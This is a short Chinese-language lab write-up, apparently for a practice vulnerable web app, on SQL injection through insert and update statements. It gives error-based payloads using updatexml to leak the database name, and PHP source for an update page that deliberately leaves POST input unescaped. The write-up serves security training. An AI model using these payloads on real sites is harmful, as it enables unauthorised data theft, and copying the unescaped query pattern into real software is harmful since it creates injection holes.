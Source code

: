 #### insert

注册页面

![](https://i.loli.net/2021/02/14/oUadxHfnustVOGp.png)

则猜测后端语句为：

```mysql
insert into 某表  (username,password,sex,phonenumber,address,home?) values ('xxx','xxx','xxx',xxx,'xxx','xxx');
```

xxx即为我们输入的值，存在报错，构造payload：

```mysql
xxx' or (select updatexml(1,concat (0x7e,(select database()),0x7e),1)) or '
xxx' or updatexml(1,concat(0x7e,database()),0) or '

因为存在两个必填项，必须在末尾加'构造闭合，使得报错不是语法错误
```



#### update

![](https://i.loli.net/2021/02/14/AqXZrg4VyFERtKG.png)

猜测后端语句为：

```mysql
update 某表 set sex = 'xxx', phone = 'xxx', add = 'xxx', email = 'xxx' where name ='123';
```

源码：

```php
$link=connect();
// 判断是否登录，没有登录不能访问
if(!check_sqli_session($link)){
    echo "<script>alert('登录后才能进入会员中心哦')</script>";
    header("location:sqli_login.php");
}

$html1='';
if(isset($_POST['submit'])){
    if($_POST['sex']!=null && $_POST['phonenum']!=null && $_POST['add']!=null && $_POST['email']!=null){
//        $getdata=escape($link, $_POST);

        //未转义,形成注入,sql操作类型为update
        $getdata=$_POST;
        $query="update member set sex='{$getdata['sex']}',phonenum='{$getdata['phonenum']}',address='{$getdata['add']}',email='{$getdata['email']}' where username='{$_SESSION['sqli']['username']}'";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1 || mysqli_affected_rows($link)==0){
            header("location:sqli_mem.php");
        }else {
            $html1.='修改失败，请重试';

        }
    }
}

```
